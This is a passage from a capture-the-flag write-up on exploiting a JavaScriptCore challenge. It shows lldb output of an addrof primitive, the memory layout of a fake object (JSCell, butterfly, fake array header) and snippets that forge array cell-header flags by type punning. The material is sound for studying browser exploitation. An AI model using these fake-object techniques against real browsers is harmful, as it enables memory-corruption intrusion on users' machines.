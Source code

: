 Let's try debugging what happens with this address then, shall we? Don't worry too much about the "flags_arr_contiguous" part for now. Just know that it's essentially a structure header that says it's a contiguous array. We can debug with `lldb`. Running the following commands gives us a gdb-like session:
```
lldb jsc
>> r -i poc.js
```
Where poc.js is our spray and the fake outer struct. Now I implemented a bunch of helper functions to convert from integer to float, float to integer, integer to hex, just like I'm used to in Python; these will be in the final solve script if you want to have a look at those. Let's look at our debugging session:
```python
(lldb) r -i poc.js
Process 229787 launched: '/home/cave/CTF/fe-ctf/finals/my-first-browserpwn/my-first-browserpwn/jsc' (x86_64)
>>> Process 229787 stopped
* thread #1, name = 'jsc', stop reason = signal SIGSTOP
    frame #0: 0x00007ffff63749cc libc.so.6`__GI___libc_read at read.c:26:10
(lldb) c
Process 229787 resuming
addrof(outer)
6.95329221692873e-310
>>> hex(f2i(6.95329221692873e-310))
0x7fffb3488000
>>> Process 229787 stopped
* thread #1, name = 'jsc', stop reason = signal SIGSTOP
    frame #0: 0x00007ffff63749cc libc.so.6`__GI___libc_read at read.c:26:10
(lldb) x/4wgx 0x7fffb3488000
0x7fffb3488000: 0x010018000000c5a5 0x0000000000000000
0x7fffb3488010: 0x0109200900000200 0x00007fffb34c1ee0
(lldb)
0x7fffb3488020: 0x0000000000000000 0x0000000000000000
0x7fffb3488030: 0x0000000000000000 0x0000000000000000
```
We see a few interesting things here, specifically this:
```python
(lldb) x/4wgx 0x7fffb3488000
0x7fffb3488000: 0x010018000000c5a5 0x0000000000000000
0x7fffb3488010: 0x0109200900000200 0x00007fffb34c1ee0
```
We see that the addrof our outer structure first has something that starts with `0x010018000000c5a5`. This is the JSCell. The second one is the Butterfly pointer, which is null since all properties are stored inline. Next is our fake contiguous array header, and then we have the address to our victim object. Now back to the funky `cell_header: flags_arr_contiguous,`. How do we know what to set this as? I just manually created an array I knew would be a contiguous array, and then used lldb to grab the cell headers, but it seems to be the same for lots of exploits. We need to subtract 0x10000 because of the way JavaScript deals with integers - this is not too important why, but Saelo goes into more detail in his Phrack paper. Cool, now we have a bit more code to add to the top of our exploit:
```javascript
u32[1] = 0x01082007 - 0x10000;
var flags_arr_double = f64[0];

u32[1] = 0x01082009 - 0x10000;
var flags_arr_contiguous = f64[0];
```
But wait! What are this u32 and f64? I know it's a lot, bear with me. This is how we are going to be adding numbers in our exploit, to only add 32-bits, such that we can only change the upper or lower half or sometimes both. The helper functions are as follows:
```javascript
u32 = new Uint32Array(buf)
f64 = new Float64Array(buf)
``` 
So of course, we want to make the fake object from our fake cell header, not the outer object, so we add 0x10: